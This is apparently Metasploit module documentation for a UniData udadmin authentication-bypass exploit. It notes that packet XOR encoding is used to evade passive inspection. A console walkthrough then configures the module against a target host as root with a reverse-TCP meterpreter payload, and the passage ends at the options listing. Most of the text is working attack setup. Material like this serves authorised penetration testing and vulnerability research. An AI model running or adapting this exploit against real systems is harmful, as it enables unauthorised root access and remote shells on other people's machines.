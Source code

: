 In the UniRPC header, there is a bit that enables packet encoding. If set, the
packet body is XOR'd with either 1 or 2, depending on another header field.
While it's not strong encoding by any means, it does hide the exploit from
passive inspection. We set the encoding the XOR'ing with 2 by default.

## Scenarios

### Version 8.2.4 with root user, unix command target

```
msf6 > use exploit/linux/misc/unidata_udadmin_auth_bypass
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp

msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > set LHOST ens160
LHOST => ens160

msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > set RHOST 10.0.0.198
RHOST => 10.0.0.198

msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > set UNIDATA_VERSION 8.2.4
[-] Unknown datastore option: UNIDATA_VERSION.

msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > set VERBOSE true
VERBOSE => true

msf6 exploit(linux/misc/unidata_udadmin_auth_bypass) > show options

Module options (exploit/linux/misc/unidata_udadmin_auth_bypass):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   RHOSTS           10.0.0.198       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT            31438            yes       The target port (TCP)
   SSL              false            no        Negotiate SSL for incoming connections
   SSLCert                           no        Path to a custom SSL certificate (default is randomly generated)
   UNIRPC_GID       1000             yes       gid to authenticate with (must not be 0, does not need to correspond to the username)
   UNIRPC_UID       0                yes       Linux uid to authenticate with (must correspond to the username)
   UNIRPC_USERNAME  root             yes       Linux username to authenticate with (must match the uid)
   URIPATH                           no        The URI to use for this exploit (default is random)


   When CMDSTAGER::FLAVOR is one of auto,certutil,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  ens160           yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

```